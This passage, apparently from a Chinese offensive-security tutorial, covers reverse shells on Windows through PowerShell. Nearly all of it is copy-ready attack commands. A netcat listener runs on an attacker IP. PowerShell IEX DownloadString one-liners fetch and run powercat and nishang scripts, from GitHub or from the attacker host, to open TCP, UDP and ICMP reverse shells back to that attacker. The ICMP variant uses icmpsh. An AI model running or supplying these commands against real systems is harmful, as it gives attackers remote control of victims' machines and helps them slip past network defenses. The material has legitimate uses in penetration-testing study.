 ### 9. powershell反弹shell

powershell反弹shell本质上是一些多功能代码集合，通过调用windows提供的api接口实现网络通信和指令解析执行的功能。

#### 1）powercat反弹shell

```
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666
# 或者使用powercat监听
powercat -l -p 6666

# 目标机反弹cmd shell：
powershell IEX (New-Object System.Net.Webclient).DownloadString
('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 192.168.159.134 -p 6666 -e cmd
```

#### 2）nishang反弹shell

Nishang是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。

**## Reverse TCP shell**

```
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666

# 目标机执行：
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com
/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666

# 或者将nishang下载到攻击者本地：
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

**## Reverse UDP shell**

```
# 攻击者(192.168.159.134)开启监听：
nc -lvup 53

# 目标机执行：
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1');
Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

**## Reverse ICMP shell**

```
# 首先攻击端下载icmpsh_m.py文件
https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1

# 攻击者(192.168.159.134)执行
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包
python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

# 目标机(192.168.159.138)执行
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```
